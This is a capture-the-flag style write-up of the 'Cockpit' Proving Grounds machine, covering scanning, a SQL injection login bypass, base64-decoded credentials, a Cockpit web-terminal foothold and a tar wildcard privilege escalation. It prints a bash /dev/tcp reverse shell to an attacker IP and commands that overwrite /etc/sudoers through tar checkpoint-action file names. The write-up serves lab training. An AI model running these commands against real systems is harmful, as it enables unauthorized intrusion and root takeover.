 ```yaml
---
Date: 2024-10-18
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.244.10
Writeup: https://medium.com/@Dpsypher/proving-grounds-practice-cockpit-7e777892e485
---
```

# Cockpit


# Resolution summary
- Text
- Text
## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- gobuster

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Cockpit.nmap 192.168.244.10 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
9090/tcp open  zeus-admin?
|_drda-info: TIMEOUT
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|     margin: 0 0 10px;
|_    @font-face {
1 service unrecognized despite returning data.
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.2p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.41)
- Navigated to `http://192.168.244.10:80` and identified `Apache HTTP Server v 2.4.41`
![[Pasted image 20241018193653.png]]
- Ran `gobuster dir -u http://192.168.244.10 -w //usr/share/dirb/wordlists/big.txt -x php,html,txt` to identify available files - identified `blocked.html` before target machine crashed.
![[Pasted image 20241018195332.png]]
- Navigated to `http://192.168.244.10/blocked.html`
![[Pasted image 20241018194838.png]]
- Viewed source for `http://192.168.244.10/blocked.html` and found no further information
![[Pasted image 20241018194944.png]]
- Forced to revert machine second time because target had crashed again after accessing `blocked.html`
- Re-ran `gobuster` with more threads and 400/403/404 blacklisted:  `gobuster dir -u http://192.168.244.10 -w //usr/share/dirb/wordlists/big.txt -x php,html,txt -t 42 -b 404,403,400` - created many errors but identified `login.php`
![[Pasted image 20241018203838.png]]
- Navigated to `http://192.168.244.10/login.php` and identified `Blaze` login - attempted login with credentials `admin:admin`
![[Pasted image 20241018204055.png]]
- Checked `/usr/share/wordlists/seclists/Fuzzing/Databases` for potential login bypass suggestion - identified `MySQL-SQLi-Login-Bypass.fuzzdb.txt` and viewed it
![[Pasted image 20241018204433.png]]
- Attempted login to `http://192.168.244.10/login.php` with username `'OR '' = '` - gained access to `password-dashboard.php`  and identified encoded passwords
![[Pasted image 20241018204635.png]]
- Copied passwords into `CyberChef` and identified base64-encoded credentials `james:canttouchhhthiss@455152` & `cameron:thisscanttbetouchedd@455152`
![[Pasted image 20241018205151.png]]
![[Pasted image 20241018205343.png]]
## Port 9090 - zeus-admin
- Navigated to `http://192.168.244.10:9090` and received invalid security certificate warning
![[Pasted image 20241018202332.png]]
- Viewed Certificate and identified potential MD5 hash in `Organisation`
![[Pasted image 20241018202436.png]]
- Copied MD5 hash to `cert.hash` and ran `hashcat -m 0 cert.hash /usr/share/wordlists/rockyou.txt --force` - failed to find a match in `rockyou.txt`
![[Pasted image 20241018202921.png]]
- Proceeded to website and identified server login interface and `Ubuntu 20.04.6 LTS`
![[Pasted image 20241018200056.png]]
- Checked page source and identified script for "Cockpit" login
![[Pasted image 20241018201114.png]]
- Attempted password guessing with credentials `admin:admin`
![[Pasted image 20241018200243.png]]
- Attempted password guessing with credentials `admin:password`
![[Pasted image 20241018200333.png]]
- Attempted login with credentials `james:canttouchhhthiss@455152`
![[Pasted image 20241018205834.png]]
- Attempted login with credentials `cameron:thisscanttbetouchedd@455152`
![[Pasted image 20241018205956.png]]

---
# Exploitation
- Reattempted login with credentials `james:canttouchhhthiss@455152`
![[Pasted image 20241018210129.png]]
- Identified "Terminal" and achieved command execution on target - ran `cat local.txt` to print `fa9343d03bf9cbb2e6ae3c5af22043dc`
![[Pasted image 20241018210333.png]]
- Started netcat listener on port `4444` and ran `/bin/bash -i >& /dev/tcp/192.168.45.155/4444 0>&1` on target to establish reverse shell
![[Pasted image 20241018210748.png]]
![[Pasted image 20241018210800.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` and identified `james` can run `/usr/bin/tar -czvf /tmp/backup.tar.gz *` as root without a password
![[Pasted image 20241018210915.png]]
- Identified [GTFObin for `tar`](https://gtfobins.github.io/gtfobins/tar/) using `sudo`
![[Pasted image 20241018211535.png]]
## Privilege Escalation vector
- Navigated to `/tmp` and ran `touch payload.sh` to create `payload.sh` file, then ran following commands to add to `payload.sh` and setup backup using wildcard 
```
echo "echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers" > payload.sh
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
```

![[Pasted image 20241018213255.png]]
- Ran command `sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *` 
![[Pasted image 20241018213503.png]]
- Ran `sudo -l` to check new sudo privileges for `james`, ran  `sudo /bin/bash` to become `root`, then ran `cat /root/proof.txt` to print `d8381218cb60a519ac20d2b75b8e1fec`
![[Pasted image 20241018213839.png]]
---
# Trophy & Loot
`local.txt` = `fa9343d03bf9cbb2e6ae3c5af22043dc`
`root.txt` = `d8381218cb60a519ac20d2b75b8e1fec`